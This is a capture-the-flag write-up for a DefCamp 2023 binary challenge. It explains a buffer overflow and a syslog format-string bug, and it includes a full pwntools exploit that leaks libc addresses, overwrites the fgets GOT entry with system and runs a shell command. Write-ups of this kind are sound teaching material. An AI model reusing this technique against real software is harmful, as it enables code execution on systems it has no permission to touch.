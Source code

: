 ## Challenge Description

Wait what? We can write data, but where?

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```  
$ checksec syslog-write  
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH
RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE  
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No
RUNPATH   49 Symbols        No    0               4               syslog-write  
```  
We have PIE disabled and Partial RELRO. Partial RELRO might mean that we will
overwrite GOT entries.

We decompile the binary and find numerous vulnerabilities. First a buffer
overflow is present in the ``main`` function, when we read the "log level":  
```c  
	printf("Enter the log level (LOG_INFO, LOG_WARNING, LOG_ERR, etc.): ");  
	__isoc99_scanf(" %[^\n]",local_222);  
```  
Sadly, we can't do much with it initially, as the function does not return.
Every exit point is covered by ``exit()``.

Another vulnerability that is evident is the fact that our input gets passed
directly to ``syslog``. What is great about this is that ``syslog`` uses a
format string as its second argument. So we have a format string
vulnerability.

```c  
	printf("Enter the message to write to syslog: ");  
	fgets(local_218,0x200,stdin);  
	fgets(local_218,0x200,stdin);  
	syslog((int)local_222,local_218);  
	closelog();  
```

### Solution

So first we obviously have to leak some data. We leak a whole lot of addresses
from the stack by passing a bunch of ``"%x"`` to ``syslog``. We manually
identify the return for the ``main`` function. We can make our lives easier by
passing a bunch of "a" characters to the vulnerable buffer, to create a
pattern of "a" characters leading up to the return address.

After leaking and checking in the debugger, we find out the return address for
main leads to ``__libc_init_first``. We find the libc version using the [libc
database](https://libc.blukat.me/) and we save some offsets to ``system`` from
there. In the exploit we next calculate the address for ``system`` and use a
classic arbitrary write primitive from the format string vulnerability. We
overwrite the address of ``fgets``, found in GOT, two bytes at a time (to
avoid long printing times). Now, our next input to fgets will get interpreted
as a shell command. But how can we control it now that ``fgets`` is
compromised? Easy, we can reuse the buffer overflow from the earlier ``scanf``
to overwrite it with a command. The exploit is below:

```py  
#!/usr/bin/env python3

from pwn import *

is_remote = False  
target = process("./syslog-write")  
#target = remote("34.159.3.30", 31549)

fgets_gotplt_addr = 0x00404048  
fgets_gotplt_addr_next = 0x0040404a

if is_remote:  
   system_offset = 0x27060 # from init_first  
else:  
   system_offset = 159856 # from init_first

# Leak a bunch of addresses  
target.sendline(b"1")  
target.sendline(b"a" * 0x222)  
target.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
%x %x")

if is_remote:  
   target.sendline(b"2")  
   print(target.recvuntil(b"syslog-write"))  
   leak = list(reversed(target.recvline().split()))

   print(leak)  
	# Find the return address using the "AAAA" pattern  
   for i in range(len(leak)):  
       if leak[i] == b"61616161":  
           libc_init_first_leak = leak[i-1]  
           print(libc_init_first_leak)  
           libc_init_first_leak = int(libc_init_first_leak, 16)  
           break

else:  
	# get the addresses manually on local  
	# I had some issues with reading the syslog  
   libc_init_first_leak = input()

   print(libc_init_first_leak)  
   libc_init_first_leak = int(libc_init_first_leak, 16)  
   print(hex(libc_init_first_leak))

# Find system address  
system_addr = p64(libc_init_first_leak + system_offset)  
print(f"System addr: {hex(libc_init_first_leak + system_offset)}")

# Prepare the bytes to be written  
x = int.from_bytes(system_addr[:2], byteorder='little')  
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr)

# You have to make sure the stack is correctly aligned  
# and that the parameter access (%11$hn and %12$hn) leads to the correct
addresses  
# Use a debugger!  
payload = "%{}c%11$hn%{}c%12$hnbbbbbbb".format(x, y-x).encode()  
print(payload)

# Overwrite fgets with system  
target.sendline(b"1")  
target.sendline(p64(fgets_gotplt_addr) + p64(fgets_gotplt_addr_next)) #
honestly don't remember if this really matters  
target.sendline(payload + p64(fgets_gotplt_addr) +
p64(fgets_gotplt_addr_next))

# run /bin/cat flag.txt  
target.sendline(b"1")  
target.sendline(b"A" * 10 + b"/bin/cat flag.txt") # overflow and win

target.interactive()  
```

#### Flag

```CTF{61534936dc22499d88206f04c36ccda47290ad4656345033c6c88f06a86a2b92}```

Original writeup (https://dothidden.xyz/defcamp_quals_2023/system-write/).